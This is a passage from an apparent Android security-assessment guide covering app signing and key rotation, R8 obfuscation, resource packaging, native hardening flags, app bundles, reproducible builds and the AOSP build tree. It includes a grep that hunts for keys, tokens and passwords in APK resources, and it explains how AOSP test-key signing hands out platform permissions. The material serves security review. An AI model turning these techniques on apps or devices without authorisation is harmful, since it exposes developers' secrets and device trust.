| Debug signing key | The default `~/.android/debug.keystore` | Signed by a well-known key whose private half is on every developer machine on earth | `apksigner verify --print-certs` shows CN=Android Debug |
| `usesCleartextTraffic` / debug network config | `src/debug/res/xml/…` | HTTP permitted, user CAs trusted | Read the network security config in the APK |
| WebView contents debugging | `WebView.setWebContentsDebuggingEnabled(true)` | `chrome://inspect` can drive the WebView | Search the DEX for the call |
| Extra dependencies | `debugImplementation` | Flipper, Chucker, LeakCanary present, sometimes with a listening socket | `unzip -l` and look for their packages |

> **Under the Hood**
> `BuildConfig.DEBUG` is a `static final boolean`. In a release build it is `false`, and because it is a
> compile-time constant, `javac` performs **dead-code elimination on the `if` statement itself** — the
> guarded block is not emitted into the `.class` file at all. This is genuine, not a shrinking pass.
> So `if (BuildConfig.DEBUG) Log.d(TAG, token)` really does vanish in release.
>
> The trap is that this only works for *direct* constant references. `if (isDebug())` where `isDebug()`
> returns `BuildConfig.DEBUG` is a method call: the constant folding does not apply, the method survives
> unless R8 inlines it, and the logging statement ships. Likewise `Log.d(TAG, "user=" + user)` with no
> guard at all ships unconditionally, because `Log.d` is a real method call that R8 removes only if you
> add `-assumenosideeffects class android.util.Log { *; }` **and** optimisation is enabled. The
> overwhelmingly common outcome in real applications is that logging ships.

> **Pentester's Note**
> Debug artefacts reach production by three routes, and it is worth naming which one you found:
> (1) the wrong variant was uploaded — check the signing certificate; a debug-keystore signature is
> conclusive; (2) the release build type was misconfigured — `isDebuggable = true` on `release`, which
> you can find in the repository verbatim; (3) a debug-only source set or dependency leaked because
> someone wrote `implementation` instead of `debugImplementation`. Each has a different remediation and
> a different organisational cause, and saying which one it is turns a finding into advice.

### 3.14 Signing, keystores, rotation, and Play App Signing

Android does not have a central authority for app identity. An application's identity **is** the public
key that signed it. There is no revocation, no expiry enforcement, and no certificate authority. The
rules are simple and brutal:

- An update is accepted only if it is signed by the same key (or a key in a valid rotation lineage).
- Two apps can share a UID only if they are signed by the same key and both declare the same
  `sharedUserId`.
- `signature`-level permissions are granted only to apps signed by the declaring app's key.

> **Definition**
> A **keystore** is an encrypted file (Java `JKS`, or the modern `PKCS#12`) containing one or more
> **key entries**. Each entry is a private key plus its certificate chain, identified by an **alias**,
> and protected by a **key password**; the file itself is protected by a **store password**. Losing the
> keystore for a published app means you can never update that app again under the same package name —
> unless you had enrolled in Play App Signing.

#### The signature schemes

| Scheme | Introduced | What it covers | Notes |
|---|---|---|---|
| v1 (JAR signing) | Android 1.0 | Individual file digests in `META-INF/` | Does not cover the ZIP structure itself. Vulnerable to the Janus class of issues on old versions. Disable unless `minSdk < 24`. |
| v2 | Android 7.0 (API 24) | The entire APK file bytes, via an APK Signing Block | Whole-file integrity; much faster verification |
| v3 | Android 9 (API 28) | v2 plus a **signing certificate lineage** | Enables key rotation |
| v3.1 | Android 13 (API 33) | Rotation targeted at newer SDKs while older ones keep the original key | Lets you rotate without breaking pre-33 devices |
| v4 | Android 11 (API 30) | A Merkle tree in a side-car `.apk.idsig` file | Enables incremental install (streaming an APK while it runs) |

```bash
# host — what actually signed this APK, and with which schemes
apksigner verify --verbose --print-certs app-release.apk

# host — the full certificate, including the SHA-256 you compare against a pin
keytool -printcert -jarfile app-release.apk

# host — inventory a keystore you were given
keytool -list -v -keystore release.jks
```

#### Key rotation

Rotation with v3 does not replace the old key; it creates a **lineage** proving that the holder of the
old key authorised the new one, and it records what capabilities the old key retains (whether it can
still be used for shared-UID membership, for granting signature permissions, and so on).

```bash
# host — create a lineage authorising a new key, then sign with it
apksigner rotate \
  --out lineage.bin \
  --old-signer --ks old-release.jks --ks-key-alias oldkey \
  --new-signer --ks new-release.jks --ks-key-alias newkey

apksigner sign \
  --ks new-release.jks --ks-key-alias newkey \
  --lineage lineage.bin \
  --out app-release-signed.apk app-release-unsigned.apk
```

> **Warning**
> Rotation breaks every **client-side** integrity assumption that was written against the old
> certificate hash. Certificate pinning inside a companion app, a server-side check of
> `PackageManager.getPackageInfo(..., GET_SIGNING_CERTIFICATES)`, an MDM allowlist, a Play Integrity
> verdict consumer that compares `apkCertificateDigestSha256` — all of them must be updated to accept
> both certificates, and `hasSigningCertificate()` with `CERT_INPUT_SHA256` is the API that does it
> correctly. During a review, ask specifically: "if you rotated your signing key tomorrow, what breaks?"
> The answer is usually a list nobody had written down.

#### Play App Signing

With Play App Signing enabled, the developer holds an **upload key**, and Google holds the **app signing
key**. The developer signs the AAB with the upload key; Google verifies it, strips that signature,
generates split APKs, and signs them with the app signing key.



The consequences a tester must hold in mind:

| Consequence | Detail |
|---|---|
| The certificate you extract from a Play-installed APK is the **app signing key**, not the upload key | Comparing it to a certificate the developer shows you from their keystore will mismatch, and that is normal |
| Google can re-sign, and therefore Google is in the trust chain | An accepted trade-off, but it must be stated in a threat model |
| Losing the upload key is recoverable | You request a reset; losing a self-managed signing key is not recoverable |
| An APK downloaded from a third-party mirror may be signed by anyone | Always verify the certificate digest against the Play-installed copy before analysing a "the same" APK from an APK site |
| Play may re-optimise the delivered artefacts | Do not assume byte-identity between what you build and what the device receives |

> **Pentester's Note**
> Establish provenance before you analyse. Pull the APK set off a real device with
> `adb shell pm path <pkg>` and `adb pull`, then record `apksigner verify --print-certs` output and the
> SHA-256 of every file in your evidence directory. Analysing an APK from a download site and reporting
> findings against a client's production app is a career-shortening mistake — mirrors host repackaged,
> trojanised and stale builds routinely.

### 3.15 Shrinking, obfuscation, and resource shrinking



| Setting | Requires | Effect | Security effect |
|---|---|---|---|
| `isMinifyEnabled = true` | — | Runs R8 instead of D8 | Removes unused code (smaller attack surface for gadget-style attacks), renames identifiers (raises reversing cost) |
| `isShrinkResources = true` | `isMinifyEnabled = true` | Removes resources not referenced from the shrunk code | Removes leftover debug layouts, test assets, unused strings |
| `proguardFiles(getDefaultProguardFile("proguard-android-optimize.txt"), …)` | — | Baseline keep rules plus optimisation | The non-`-optimize` default file disables optimisation |
| `android.enableR8.fullMode=true` | AGP 8.0 default | More aggressive assumptions | Requires more precise keep rules; more breakage if reflection is undeclared |
| `-keep class ** { *; }` in `proguard-rules.pro` | — | Keeps everything | **Completely defeats obfuscation and shrinking.** A single line. |

> **Warning**
> Obfuscation is a **cost multiplier, not a control**. It does not protect a secret, it does not stop a
> determined analyst, and it must never be the answer to "how do you protect this key". What it does is
> raise the time cost of understanding the app, which has real value against opportunistic attackers,
> automated scrapers and mass repackaging — and no value at all against someone with a week. Report its
> absence as a hardening gap (MASVS-RESILIENCE), never as a vulnerability, and never accept it as a
> mitigation for a data-exposure finding.

`mapping.txt` deserves its own warning. It is the file that maps obfuscated names back to original
names, and it lives at `app/build/outputs/mapping/<variant>/mapping.txt`.

> **Pentester's Note**
> Look for `mapping.txt` in three places during a source-assisted review: committed to the repository
> (`git log --all -- '**/mapping.txt'`), attached to a public GitHub release, and inside the APK itself
> — some builds accidentally package it, and the Play Console upload flow encourages developers to keep
> it. Its presence hands an analyst the complete, exact de-obfuscation of the app. It is also uploaded
> to crash-reporting services (Crashlytics, Bugsnag, Sentry); a compromised or misconfigured account on
> one of those services is an indirect but complete leak of the same file.

### 3.16 Resources: `aapt2` compile and link



`aapt2 compile` runs **once per file** and produces a `.flat` intermediate. This is what makes resource
processing incremental: editing one string re-compiles one file.

`aapt2 link` runs **once for the whole variant**. It resolves the overlay order (library resources
first, then your `main` source set, then flavours, then the build type — the same priority ladder as
the manifest), assigns each resource a 32-bit identifier of the form `0xPPTTEEEE` (package, type,
entry), writes the resource table `resources.arsc`, encodes the manifest into the binary XML format
Android parses, and generates the `R` class of integer constants.

It also emits `aapt_rules.txt`: automatically generated R8 keep rules for every class named in a layout
XML (custom views), in the manifest (components), or in a `fragment` tag. Without this, R8 would delete
classes that are only referenced by name from XML and instantiated reflectively.

| Artefact | Where it ends up | How you read it |
|---|---|---|
| `resources.arsc` | APK root | `aapt2 dump resources app.apk` |
| Binary `AndroidManifest.xml` | APK root | `aapt2 dump xmltree app.apk --file AndroidManifest.xml` |
| `res/**` binary XML | APK | `apktool d` to get readable XML |
| `R.jar` | `build/intermediates/compile_and_runtime_not_namespaced_r_class_jar/` | `javap` |

> **Pentester's Note**
> `resources.arsc` is a frequently overlooked place for secrets. `resValue("string", …)` in Gradle, the
> Google Services plugin's output, and hand-written `res/values/secrets.xml` all land here, and none of
> them are touched by obfuscation. Run `aapt2 dump resources app.apk | grep -iE
> "key|token|secret|password|url"` on every APK. It takes two seconds and it finds things that DEX
> string searches miss because the string never appears in `classes.dex` at all — only its integer ID
> does.

### 3.17 The native pipeline: NDK, CMake and `ndk-build`

Gradle does not compile C++. It shells out to an external native build system.

```kotlin
// app/build.gradle.kts
android {
    defaultConfig {
        externalNativeBuild {
            cmake {
                cppFlags += listOf("-std=c++17", "-fstack-protector-strong")
                arguments += listOf("-DANDROID_STL=c++_shared")
            }
        }
        ndk { abiFilters += listOf("armeabi-v7a", "arm64-v8a", "x86_64") }
    }
    externalNativeBuild {
        cmake {
            path = file("src/main/cpp/CMakeLists.txt")
            version = "3.22.1"
        }
    }
    ndkVersion = "26.1.10909125"
}
```

| Stage | Tool | Output |
|---|---|---|
| Configure | CMake with the NDK toolchain file, or `ndk-build` with `Android.mk`/`Application.mk` | Per-ABI build directories |
| Compile | `clang` / `clang++` from the NDK, once per ABI | `.o` |
| Link | `lld` | Unstripped `.so` per ABI |
| Strip | AGP strips symbols by default for release | `lib/<abi>/*.so` in the APK |
| Native debug symbols | `android.buildTypes.release.ndk.debugSymbolLevel = "FULL"` | A separate symbols ZIP for Play |

Security-relevant native build flags, and what their absence means:

| Flag / property | Purpose | If missing |
|---|---|---|
| `-fstack-protector-strong` | Stack canaries | Stack buffer overflow becomes directly exploitable |
| `-D_FORTIFY_SOURCE=2` | Compile-time and runtime checks on `memcpy`, `sprintf` etc. | Classic overflow patterns unchecked |
| `-Wl,-z,relro,-z,now` | Full RELRO | GOT overwrite is available to an attacker |
| PIE (default and mandatory since API 21) | Position-independent executable | ASLR ineffective |
| `-fsanitize=cfi` | Control-flow integrity on indirect calls | Indirect-call hijacking easier |
| `-fvisibility=hidden` | Hide non-exported symbols | Larger reversing surface; more hookable symbols |
| `debugSymbolLevel` | Whether symbols are uploaded to Play separately | `FULL` in the shipped `.so` means a fully symbolised binary for the analyst |

```bash
# host — audit the hardening of every native library in an APK
unzip -o app-release.apk 'lib/*' -d nat/
for so in $(find nat -name '*.so'); do
  echo "== $so"
  readelf -d "$so" | grep -E "BIND_NOW|FLAGS"
  readelf -h "$so" | grep -E "Type:"
  readelf -s "$so" 2>/dev/null | grep -c "__stack_chk_fail" | sed 's/^/  stack_chk refs: /'
done
```

> **Warning**
> R8 renames Java classes and methods. JNI symbols are named after the **Java** class and method they
> bind to (`Java_com_example_Crypto_decrypt`). If R8 renames `com.example.Crypto`, the runtime lookup
> for the native method fails with `UnsatisfiedLinkError` — unless a keep rule preserves it. The
> standard fix is `-keepclasseswithmembernames class * { native <methods>; }`, and it is in the default
> ProGuard file. The security consequence is that **every class with a native method keeps its original
> name**, which hands the reverser a labelled map of exactly the parts of the app the developers thought
> were worth writing in C++. That is almost always the crypto, the licensing, and the anti-tamper code.
> See [16-JNI](../16-JNI/README.md).

### 3.18 Packaging, alignment and the final ZIP

An APK is a ZIP file with rules.

| Step | Tool | Detail |
|---|---|---|
| Merge | AGP | DEX files, `resources.arsc`, `res/`, `assets/`, `lib/<abi>/`, Java resources, `META-INF/` |
| ZIP | AGP's packager | Compression policy per entry type; `resources.arsc` and `.so` are stored uncompressed when `useLegacyPackaging = false` |
| Align | `zipalign` | `-p 4` aligns uncompressed entries; `-P 16` aligns `.so` to 16 KB pages for Android 15+ devices |
| Sign | `apksigner` | Inserts the APK Signing Block between the entries and the central directory |

> **Warning**
> `zipalign` must run **before** `apksigner`, never after. Signature schemes v2 and later cover the
> exact byte layout of the file; re-aligning afterwards moves bytes and invalidates the signature. If
> you rebuild an APK by hand and get `INSTALL_PARSE_FAILED_NO_CERTIFICATES` or a v2 verification
> failure, this is the first thing to check.

> **Under the Hood**
> Storing `.so` files uncompressed (`useLegacyPackaging = false`, the default since AGP 4.2 for
> `minSdk >= 23`) is not just a size trade-off. Uncompressed and page-aligned libraries can be `mmap`ed
> directly from the APK by the dynamic linker, so they are never extracted to
> `/data/app/…/lib/`. For you this means: on a modern app, do not expect to find extracted `.so` files
> in the app's native library directory — look inside the APK, and expect `/proc/<pid>/maps` to show
> the library mapped from the `.apk` path itself.

Android 15 introduced support for 16 KB memory pages on some devices. A library aligned only to 4 KB
will fail to load on a 16 KB-page device. The build-side fix is `-Wl,-z,max-page-size=16384` at link
time and `zipalign -P 16` at packaging time. When you meet an app that crashes on load on a new device
but works on an old one, this is a leading candidate.

### 3.19 AAB, `bundletool`, splits and dynamic feature modules

> **Definition**
> An **Android App Bundle** (`.aab`) is a publishing format, not an installable one. It contains the
> app's code and resources organised so that a *generator* can produce per-device APKs from it. Google
> Play is that generator for Play installs; `bundletool` is the same generator, available locally.



| Concept | APK | AAB |
|---|---|---|
| What the developer uploads | The installable artefact | A pre-installable archive |
| Who signs what the device runs | The developer | Google (Play App Signing), from the developer's key |
| Per-device optimisation | None (universal APK) | ABI, density, language splits |
| Testable locally | Directly | Via `bundletool build-apks` |
| Reverse engineering | One file | Must reassemble the split set first |

```bash
# host — turn an AAB into something you can install and analyse
bundletool build-apks --bundle=app-release.aab --output=app.apks \
  --ks=release.jks --ks-key-alias=release --mode=universal
unzip app.apks -d apks/     # a universal APK for static analysis

# host — the device-specific set, installed to a connected device
bundletool build-apks --bundle=app-release.aab --output=device.apks --connected-device
bundletool install-apks --apks=device.apks

# host — pull an installed split set off a device
adb shell pm path com.example.app
# package:/data/app/~~x/base.apk
# package:/data/app/~~x/split_config.arm64_v8a.apk
# package:/data/app/~~x/split_config.xxhdpi.apk
```

> **Pentester's Note**
> Always analyse the **complete split set**, not just `base.apk`. Splits carry native libraries and
> resources, so a base-only analysis will tell you an app has no native code when it has several
> megabytes of it. `adb shell pm path <pkg>` lists every split; pull all of them. The
> `--mode=universal` universal APK is convenient for static analysis but is **not** what any user runs,
> so any finding about split content must be reproduced against the real split.

**Dynamic feature modules** use the `com.android.dynamic-feature` plugin and declare delivery options
in their manifest:

```xml
<!-- feature_camera/src/main/AndroidManifest.xml -->
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
          xmlns:dist="http://schemas.android.com/apk/distribution">
    <dist:module dist:instant="false" dist:title="@string/camera_feature">
        <dist:delivery>
            <dist:on-demand />
        </dist:delivery>
        <dist:fusing dist:include="true" />
    </dist:module>
    <application>
        <activity android:name=".CameraActivity" android:exported="false" />
    </application>
</manifest>
```

The security-relevant properties of on-demand modules:

| Property | Detail |
|---|---|
| Code arrives after install | The DEX for a feature is downloaded later, through the Play install session |
| Signature is still enforced | `PackageManager` verifies each split against the base APK's signing certificate; a split cannot be swapped for an attacker's |
| `SplitCompat.install()` | Needed so the feature's classes and resources are visible to the already-running process |
| Manifest merge still applies | A feature module's components appear in the merged manifest and can be exported |
| Analysis impact | A static analysis of the base APK **misses feature code entirely**. Trigger the feature in the app, then re-pull the split set. |

> **Warning**
> A dynamic feature is not a code-loading vulnerability by itself — the platform verifies split
> signatures. The genuine risk is analytical: if you scan only the base APK, you will report "no
> WebView usage", "no native code", "no exported components beyond these" and be wrong, because the
> interesting half of the application had not been downloaded yet. Exercise the app fully before you
> conclude anything about its surface.

### 3.20 Reproducible builds

> **Definition**
> A build is **reproducible** if the same source, built with the same toolchain and configuration,
> produces bit-identical output. It is the property that lets a third party verify that a published
> binary really corresponds to published source.

Android builds are not reproducible by default. The sources of variation are well understood:

| Source of non-determinism | Why | Mitigation |
|---|---|---|
| ZIP entry timestamps | The packager writes the current time | AGP normalises these; custom `Jar`/`Zip` tasks need `isPreserveFileTimestamps = false` and `isReproducibleFileOrder = true` |
| File ordering | Filesystem enumeration order differs | `isReproducibleFileOrder = true` |
| Absolute paths in debug info and in `.so` | The build directory path is embedded | `-ffile-prefix-map=`, `-fdebug-prefix-map=` |
| `buildConfigField` with a timestamp or git hash | Deliberately embeds build-time state | Accept it, or derive it from the commit rather than the clock |
| Annotation processor output ordering | Processors iterate over hash-ordered sets | Processor-specific; some support a deterministic mode |
| R8 version and JVM version | Different optimisation results | Pin the AGP, R8 and JDK versions exactly |
| Dependency version ranges (`1.+`, `-SNAPSHOT`) | Resolves differently over time | Pin exact versions; use dependency locking |
| Native toolchain version | Different `clang` output | Pin `ndkVersion` |

> **Mental Model**
> Reproducibility is the *verification* half of supply-chain security. Signing tells you **who** built
> an artefact. Reproducibility tells you **what** they built. Without it, "the source is on GitHub" is a
> claim you cannot check: the published APK could contain anything, and no amount of reading the
> repository would reveal it. This is why reproducibility matters far more for a messaging app or a
> wallet — where users must trust the binary matches the audited source — than for a retail app.

Concrete steps that move an Android project toward reproducibility:

```properties
# gradle.properties
org.gradle.caching=true
org.gradle.configuration-cache=true
android.enableR8.fullMode=true
```

```kotlin
// build.gradle.kts — normalise archive tasks
tasks.withType<AbstractArchiveTask>().configureEach {
    isPreserveFileTimestamps = false
    isReproducibleFileOrder = true
}
```

```bash
# host — verify reproducibility: build twice into different directories and compare
./gradlew clean assembleRelease && cp app/build/outputs/apk/release/app-release.apk a.apk
./gradlew clean assembleRelease && cp app/build/outputs/apk/release/app-release.apk b.apk
# compare entry-by-entry rather than whole-file, so the signature block is not the only diff you see
unzip -l a.apk | sort > a.lst; unzip -l b.apk | sort > b.lst; diff a.lst b.lst
diffoscope a.apk b.apk   # if available — the most thorough comparison
```

---

## 4. Source Code Walkthrough (AOSP)

The platform build system is itself part of AOSP, which means you can read it. The app build system is
not in AOSP — Gradle is an independent open-source project and the Android Gradle Plugin is published
by Google as a binary artefact — so this section handles the two halves differently. For the platform
build we walk real AOSP paths. For the app build we walk the *observable* pipeline: the tasks, their
inputs, their outputs, and the command lines AGP actually issues, which you can extract from any
project without any source at all.

### 4.1 The map of `build/`

| Path | Language | What lives there |
|---|---|---|
| `build/make/envsetup.sh` | Bash | The definitions of `lunch`, `m`, `mm`, `mma`, `croot`, `hmm`. The file `build/envsetup.sh` at the tree root is a thin wrapper around it. |
| `build/make/core/` | GNU Make | The legacy build core: `main.mk`, `base_rules.mk`, `definitions.mk`, `shared_library.mk`, `package_internal.mk`. This is what `include $(BUILD_SHARED_LIBRARY)` pulls in. |
| `build/make/target/product/` | GNU Make | Product definitions: `base_system.mk`, `handheld_system.mk`, `full.mk`, and the `PRODUCT_PACKAGES` lists that decide what is on the image. |
| `build/make/tools/` | Python, Java | Release tooling: `releasetools/` (OTA generation, `sign_target_files_apks`), `signapk`, `zipalign` wrappers. |
| `build/soong/` | Go | Soong itself. |
| `build/soong/cc/` | Go | The `cc_*` module types — how a `cc_library_shared` becomes clang command lines. |
| `build/soong/java/` | Go | The `java_*` and `android_app` module types, including R8 invocation and APK signing. |
| `build/soong/android/` | Go | The core Soong framework: module registration, variants, `Config`, visibility, `apex_available` enforcement. |
| `build/soong/androidmk/` | Go | The `Android.mk` → `Android.bp` converter. |
| `build/soong/ui/` | Go | `soong_ui`, the top-level driver invoked by `m`. |
| `build/soong/scripts/` | Bash, Python | Helper scripts invoked by generated Ninja rules. |
| `build/blueprint/` | Go | The Blueprint library: the `.bp` parser, the module graph, the Ninja writer. Soong is a *client* of Blueprint. |
| `build/kati/` | C++, Go | The Make-to-Ninja translator, `ckati`. |
| `build/bazel/` | Starlark, Go | The Bazel migration: `bp2build` output, `BUILD.bazel` overlays. |
| `prebuilts/` | Binary | Checked-in toolchains: `prebuilts/clang/host/linux-x86/`, `prebuilts/jdk/`, `prebuilts/build-tools/`, `prebuilts/sdk/`. |
| `system/sepolicy/` | SELinux `.te`, Make/Blueprint | Policy source and the rules that compile it. |

> **Under the Hood**
> `prebuilts/` deserves a moment. AOSP does not build its own compiler; it ships a **checked-in binary
> clang** under `prebuilts/clang/host/linux-x86/clang-rXXXXXX/`. Likewise a checked-in JDK, a
> checked-in `ninja`, a checked-in Python. This is deliberate: it makes the build hermetic and
> reproducible across developer machines. It also means the AOSP source tree contains many gigabytes of
> executable content that no source in the tree produced. For a firmware supply-chain reviewer this is
> the single largest trusted-binary surface in the project, and the reason `repo` manifests pin
> `prebuilts/*` projects to exact revisions matters enormously.

### 4.2 The files that matter most

| File | Why you open it |
|---|---|
| `build/make/envsetup.sh` | To see exactly what `m`, `mm` and `mma` expand to, and which environment variables `lunch` sets |
| `build/soong/ui/build/build.go` | The orchestration: run Soong, run Kati, combine Ninja files, run Ninja |
| `build/soong/android/module.go` | The definition of a Soong module, its variants, and its properties |
| `build/soong/android/visibility.go` | How `visibility:` is enforced — a genuine build-time access-control mechanism |
| `build/soong/android/apex.go` | `apex_available` enforcement, i.e. which modules may enter which APEX |
| `build/soong/cc/builder.go` | Where clang command lines are constructed, including the default hardening flags |
| `build/soong/cc/sanitize.go` | The implementation of `sanitize: { cfi: true, … }` |
| `build/soong/java/app.go` | `android_app`: how an APK is assembled, R8 is invoked, and the APK is signed |
| `build/soong/java/dexpreopt.go` | Whether and how an app is AOT-compiled at build time (see [13-ART](../13-ART/README.md)) |
| `build/soong/genrule/genrule.go` | The `genrule` implementation and its sandboxing |
| `build/make/core/main.mk` | The entry point of the legacy Make world; where `droid` is defined |
| `build/make/core/base_rules.mk` | How `LOCAL_*` variables become Make rules; where `LOCAL_MODULE_TAGS` gates variants |
| `build/make/tools/releasetools/sign_target_files_apks.py` | How a release build is re-signed from test keys to production keys |
| `system/sepolicy/Android.bp` | How the policy is compiled into `plat_sepolicy.cil` and friends |

> **Pentester's Note**
> `build/make/tools/releasetools/sign_target_files_apks.py` is the script that takes a build signed
> with AOSP's **public test keys** and re-signs it with the OEM's production keys. When a device turns
> out to be signed with the AOSP test keys — whose private halves are published in
> `build/make/target/product/security/` — it means this step was skipped. That is a total compromise of
> platform trust: anyone can build an app signed with `platform.x509.pem`, install it, and receive
> `signature`-level platform permissions. Checking for it takes one command:
> ```bash
> # host — does anything on this device use the public AOSP test keys?
> apksigner verify --print-certs framework-res.apk | grep -i "Android\|test"
> ```
> Look for the certificate subject `CN=Android, OU=Android, O=Android, L=Mountain View`. It appears on
> more shipped devices — usually cheap set-top boxes, tablets and IoT panels — than it should.

### 4.3 Trace 1 — from `m libbinder` to a clang command line

This is the complete path, step by step, from typing a command to a compiler running.

**Step 1 — `m` is a shell function.** Defined in `build/make/envsetup.sh`, `m` is a wrapper that
locates the tree root and calls `soong_ui`:

```bash
# build/make/envsetup.sh — shape of the definition
function m()
{
    _trigger_build "all-modules" "$@"
}
```

`_trigger_build` ultimately runs `build/soong/soong_ui.bash --make-mode "$@"`, which builds the
`soong_ui` Go binary if necessary and then runs it.

**Step 2 — `soong_ui` decides what must happen.** Its logic lives in `build/soong/ui/build/build.go`.
It reads the environment that `lunch` set (`TARGET_PRODUCT`, `TARGET_BUILD_VARIANT`, `TARGET_RELEASE`),
sets up `out/`, and runs the phases in order: product config, Kati, Soong, then Ninja.

**Step 3 — product configuration.** `soong_ui` runs Kati in "product config" mode over
`build/make/core/product_config.mk` and the device's `.mk` files. The output is a set of variables —
`PRODUCT_PACKAGES`, `PRODUCT_COPY_FILES`, `BOARD_*` — written into `out/soong/soong.variables` as JSON.
This is the bridge from the Make world into the Go world.

> **Pentester's Note**
> `out/soong/soong.variables` is a single JSON file describing the entire product configuration of the
> build: architecture, SELinux settings, whether the build is `Eng` or `Debuggable`, which sanitizers
> are globally enabled, VNDK version, and dozens of feature flags. On a firmware review where you have
> the build tree, read this file first. It answers in thirty seconds what would otherwise take an hour
> of Makefile archaeology.

**Step 4 — Soong parses every `Android.bp`.** `soong_build` walks the tree, parses each `Android.bp`
with the Blueprint parser (`build/blueprint/parser/`), and instantiates a module object per
declaration. `frameworks/native/libs/binder/Android.bp` contains the `cc_library_shared` named
`libbinder`.

**Step 5 — variant expansion (mutators).** Soong then runs a series of *mutators* over the module
graph. Each mutator may split a module into several variants: one per architecture (`arm64`, `arm`),
one per image (`core`, `vendor`, `product`, `ramdisk`), one per link type (`shared`, `static`), one per
SDK version, one per sanitizer configuration. So a single `libbinder` declaration becomes many
concrete build targets. This is why `out/soong/.intermediates/frameworks/native/libs/binder/libbinder/`
contains directories named like `android_arm64_armv8-a_shared`.

**Step 6 — command generation.** For each variant, `build/soong/cc/builder.go` constructs the clang
command: the compiler path from `prebuilts/clang/…`, the global flags from
`build/soong/cc/config/global.go`, the module's own `cflags`, the include paths derived from every
dependency's `export_include_dirs`, and the sanitizer flags from `build/soong/cc/sanitize.go`. It emits
a Ninja rule.

**Step 7 — Ninja executes.** All rules land in `out/soong/build.ninja`. Ninja compares file
modification times and hashes against `.ninja_deps`, and runs only the stale commands.

You can see the final result without reading any Go at all:

```bash
# host — in an AOSP tree, find the actual compile command for one source file
grep -n "binder/Parcel.cpp" out/soong/build.ninja | head

